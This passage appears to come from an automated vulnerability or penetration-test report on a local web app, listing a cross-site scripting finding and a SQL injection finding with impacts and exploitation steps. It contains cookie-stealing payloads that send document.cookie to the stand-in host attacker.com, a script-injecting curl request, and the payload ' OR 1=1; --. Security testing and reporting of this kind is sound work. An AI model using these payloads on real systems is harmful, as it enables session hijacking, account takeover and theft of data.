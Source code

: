 #### Code Examples

**JAVASCRIPT:**
```javascript
fetch('https://attacker.com/steal.php?cookie=' + document.cookie);
```

**HTML:**
```html
<img src="x" onerror="fetch('https://attacker.com/steal.php?cookie=' + document.cookie)">
```

#### Command Examples

```bash
curl -X GET "http://127.0.0.1:5000//search?q=<script>alert(document.cookie)</script>"
```

#### Required Tools

- Browser Developer Tools
- XSS Hunter
- BeEF (Browser Exploitation Framework)

#### Potential Impact

- Theft of user cookies and session tokens
- Account takeover and identity theft
- Malicious actions performed on behalf of the victim
- Distribution of malware to users
- Access to sensitive browser data (webcam, microphone, location)
- Defacement of website content
- Social engineering attacks on users

---

### SQL Injection (High)

**Affected Component:** http://127.0.0.1:5000//product (id parameter)

**Description:** An attacker can inject malicious SQL code into application queries, allowing them to bypass authentication, access unauthorized data, modify database contents, or delete information. In some cases, they may achieve server-level command execution.

#### Step-by-Step Exploitation

1. Navigate to the vulnerable page: http://127.0.0.1:5000//product
2. Identify the vulnerable parameter: id
3. Test basic SQL injection payloads (e.g., ' OR '1'='1)
4. If vulnerable, extract database structure with UNION attacks
5. Extract sensitive data from identified tables

#### Example Payloads

```
' OR 1=1; --
```
